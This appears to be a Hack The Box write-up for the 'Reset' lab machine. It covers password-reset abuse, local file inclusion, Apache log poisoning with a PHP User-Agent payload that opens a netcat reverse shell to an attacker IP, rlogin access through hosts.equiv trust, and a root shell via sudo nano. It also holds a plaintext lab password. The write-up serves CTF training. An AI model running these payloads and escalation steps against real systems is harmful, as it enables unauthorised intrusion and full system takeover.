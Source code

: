 ```yaml
---
title: Reset Writeup - Hack The Box
description: Exploiting log poisoning and Rservices for initial access, then abusing a tmux session and nano sudo permissions for privilege escalation
author: Nontas Bakoulas
date: 2025-10-12
category: HTB Machines
reading_time: 15
---
```


## Enumeration
Let's start with an `nmap` scan:
```console title="Nmap scan"
nontas@local$ ports=$(nmap --open 10.129.234.130| grep open| cut -d ' ' -f 1|cut -d '/' -f 1|paste -sd,)
nontas@local$ nmap -sVC -p $ports 10.129.234.130 -Pn --disable-arp-ping
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-11 21:03 EEST
Stats: 0:00:17 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 80.00% done; ETC: 21:03 (0:00:04 remaining)
Stats: 0:00:48 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.57% done; ETC: 21:04 (0:00:00 remaining)
Nmap scan report for 10.129.234.130
Host is up (0.086s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.9p1 Ubuntu 3
ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 6a161fc8fefde398a685cffe7b0e60aa (ECDSA)
|_  256 e408cc5f8e56258f38c3ecdfb8860c69 (ED25519)
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Admin Login
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.52 (Ubuntu)
512/tcp open  exec    netkit-rsh rexecd
513/tcp open  login?
514/tcp open  shell   Netkit rshd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.88 seconds
```

The web app shows a login form: ![Login form](/images/blog/reset/IMG-20251012103215946.png)

We can also reset our password. If we submit a wrong name, we get "User not found": ![User not found](/images/blog/reset/IMG-20251012103339998.png)

The username `admin` exists, and we get the new password as a response in the HTTP request: ![Password reset](/images/blog/reset/IMG-20251012103449779.png)

We can use these credentials to log into the dashboard, and are presented with 2 options: `syslog` and `auth.log`. For both options when you click "View Logs", no contents show up: ![Dashboard](/images/blog/reset/IMG-20251012110439746.png)

### Log Poisoning
The `POST` request being made has the `file` parameter that specifies the absolute path `/var/log/syslog`: ![POST request](/images/blog/reset/IMG-20251012111459876.png)

In this case, we should test for command injection and LFI.

The parameter is vulnerable to LFI, since we can read log files such as `/var/log/apache2/access.log`: ![Access log](/images/blog/reset/IMG-20251012112204230.png)

As we can see, the `User-Agent` is included in the log file, so we can perform log poisoning.

![User agent](/images/blog/reset/IMG-20251012112128336.png)

Modify the `User-Agent` to the following:
```php
<?php system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.78 1234 >/tmp/f'); ?>
```

And make a new request to get a reverse shell connection:
```console title="Reverse shell"
nontas@local$ nc -lnvp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.234.130.
Ncat: Connection from 10.129.234.130:42630.
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@reset:/var/www/html$ ^Z
[1]  + 2175 suspended  nc -lnvp 1234
nontas@local$ stty raw -echo;fg
[1]  + 2175 continued  nc -lnvp 1234

www-data@reset:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),4(adm)
```

Now we can get the user flag:
```console
www-data@reset:/var/www/html$ cat /home/sadm/user.txt
```

## Lateral Movement
The `nmap` scan showed the `Rservices` (`rsh`, `rlogin`, `rcp`) running on ports 512,513 and 514. These are older remote login protocols that predate SSH.

A quick scan with `LinEnum.sh` shows the following (or via `cat /etc/hosts.equiv`):
```txt
[+] Hosts.equiv file and contents:
-rw-r--r-- 1 root root 139 Dec  6  2024 /etc/hosts.equiv
# /etc/hosts.equiv: list  of  hosts  and  users  that are granted "trusted" r
#                   command access to your system .
- root
- local
+ sadm
```

The user `sadm` can access the machine via `rsh`, `rlogin` and `rcp` **without a password**.

First, create the user `sadm` on your local machine, switch to that user, and login to the remote via `rlogin`:
```console title="Remote login"
nontas@local$ sudo useradd sadm
[Oct 12, 2025 - 12:23:19 (EEST)] nontas@local$ sudo passwd sadm
New password:
Retype new password:
passwd: password updated successfully
nontas@local$ su sadm
$ id
uid=1000(sadm) gid=1001(sadm) groups=1001(sadm)
$ rlogin 10.129.234.130
<SNIP>
sadm@reset:~$
```

## Privilege Escalation
Let's enumerate the running processes (can also be seen from `LinEnum.sh` we ran before):
```console
sadm@reset:~$ ps aux
<SNIP>
sadm        1202  0.0  0.1   8636  3956 ?        Ss   Oct11   0:00 tmux new-session -d -s sadm_session
<SNIP>
```

There's a `tmux` session running called `sadm_session`. Let's connect to it:
```console
sadm@reset:~$ tmux attach -t sadm_session
```

It displays the following:
```console
echo 7lE2PAfVHfjz4HpE | sudo -S nano /etc/firewall.sh
sadm@reset:~$ echo 7lE2PAfVHfjz4HpE | sudo -S nano /etc/firewall.sh
Too many errors from stdin
sadm@reset:~$
```

The password of the `sadm` user is `7lE2PAfVHfjz4HpE`, and by running `sudo -l` we can see the commands they can run as sudo:
```console title="Sudo privileges"
sadm@reset:~$ sudo -l
Matching Defaults entries for sadm on reset:
    env_reset, timestamp_timeout=-1, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    !syslog

User sadm may run the following commands on reset:
    (ALL) PASSWD: /usr/bin/nano /etc/firewall.sh
    (ALL) PASSWD: /usr/bin/tail /var/log/syslog
    (ALL) PASSWD: /usr/bin/tail /var/log/auth.log
```

The `sadm` user can use `nano` with the file `/etc/firewall.sh`:
```console
sadm@reset:~$ sudo nano /etc/firewall.sh
```

From [this](https://gtfobins.github.io/gtfobins/nano/) page, we can see the following steps to spawn an interactive shell (as root):
```txt
^R^X
reset; bash 1>&0 2>&0
```

So first we press `CTRL+R`, then `CTRL+X` and we input the above command (`sh` or `bash` doesn't matter): ![Nano exploit](/images/blog/reset/IMG-20251012135805691.png)

And we're now `root`:
```console title="Root access"
root@reset:/home/sadm# cd /root
root@reset:~# ls
root_279e22f8.txt  snap
root@reset:~# cat root_279e22f8.txt
```

We have successfully completed **Reset**!
